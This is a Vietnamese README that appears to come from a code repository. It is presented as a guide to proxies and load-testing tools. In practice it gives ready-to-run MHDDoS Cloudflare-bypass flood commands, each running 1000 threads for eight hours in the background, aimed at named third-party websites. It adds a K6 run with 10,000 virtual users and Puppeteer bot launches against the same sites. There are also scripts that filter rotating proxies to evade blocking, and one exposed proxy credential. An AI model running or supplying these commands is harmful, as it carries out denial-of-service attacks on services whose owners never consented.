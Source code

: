 # 🛡️ Hướng dẫn sử dụng Proxy và công cụ kiểm thử MHDDoS / K6 / Puppeteer

## 1️⃣ Thay đổi định dạng chuỗi Proxy

### ➕ Thêm `http://` vào đầu mỗi dòng:

```bash
sed -i 's|^|http://|' proxies.txt`
```

### 🔄 Chuyển định dạng để kiểm tra proxy còn sống:

```bash
awk -F: '{print "http://" $3 ":" $4 "@" $1 ":" $2}' proxies_input.txt > proxies_tmp.txt
mv proxies_tmp.txt proxies_input.txt`
```

### 🧩 Chuyển sang định dạng phù hợp với **MHDDoS**: 

```bash
awk '
/@/ {
  match($0, /http:\/\/([^:]+):([^@]+)@([^:]+):([0-9]+)/, arr)
  if (arr[1] && arr[2] && arr[3] && arr[4]) {
    print "http://" arr[3] ":" arr[4] ":" arr[1] ":" arr[2]
  } else {
    print "# Lỗi: " $0
  }
}
!/@/ {
  print $0
}
' proxies.txt > proxies_fixed.txt
mv proxies_fixed.txt proxies.txt
```

---

## 2️⃣ Kiểm tra Proxy còn sống

```bash
parallel -j 100 '
  if curl --proxy {} --max-time 5 -s https://httpbin.org/ip > /dev/null; then
    echo {} >> proxies_live.txt
    echo "✅ {}"
  else
    echo {} >> proxies_dead.txt
    echo "❌ {}"
  fi
' :::: proxies_input.txt
```

## 3️⃣ Lọc trùng các Proxy sống

```bash
sort -u proxies_live.txt -o proxies_live.txt
```

---

## 4️⃣ Cập nhật danh sách Proxy sống

```bash
mv proxies_live.txt proxies.txt
```

---

## 5️⃣ 🧨 MHDDoS ( CFB, CFBUAM, BYPASS, KILLER, APACHE)

📁 Chuyển thư mục:
```bash
cd MHDDoS
```
### ▶️ Ví dụ lệnh chạy:

```bash
nohup python3 start.py CFB https://skyxtoken.io/ 1 1000 proxies.txt 120 28800 >/dev/null 2>&1 &
nohup python3 start.py CFB https://sh1bet.live/ 1 1000 proxies.txt 70 28800 >/dev/null 2>&1 &
nohup python3 start.py CFB https://solnic.io/ 1 1000 proxies.txt 70 28800 >/dev/null 2>&1 &
```

---

## 6️⃣ 🧪 K6

📁 Chuyển thư mục:

```bash
cd bot`
```
> ⚙️ Cấu hình trong file `run.sh`, đảm bảo file `proxies_k6.txt` đúng định dạng

### ▶️ Ví dụ test đơn:

```bash
export HTTP_PROXY="http://ugbp7v4r:uGbP7v4R@103.151.122.165:20211"
k6 run k6.js
-e BASE_URL="https://sh1bet.live/"\
-e VUS=10000\
-e DURATION="10m"
```

### ▶️ Ví dụ chạy hàng loạt:

```bash
./run_k6.sh
```

---

## 7️⃣ 🕵️ Puppeteer

📁 Chuyển thư mục:

```bash
cd bot
```

> ⚙️ Kiểm tra file `proxies.txt`

### ▶️ Ví dụ test đơn:

```bash
node main.js 10 https://sh1bet.live 30
```

### ▶️ Ví dụ chạy hàng loạt:

```bash
nohup node main.js 100 https://sh1bet.live 28800 >/dev/null 2>&1 &
```

---

## 🛑 Dừng khẩn cấp

| Công cụ   | Lệnh dừng           |
| --------- | ------------------- |
| MHDDoS    | `pkill -f start.py` |
| K6        | `pkill -f k6`       |
| Puppeteer | `pkill node`        |
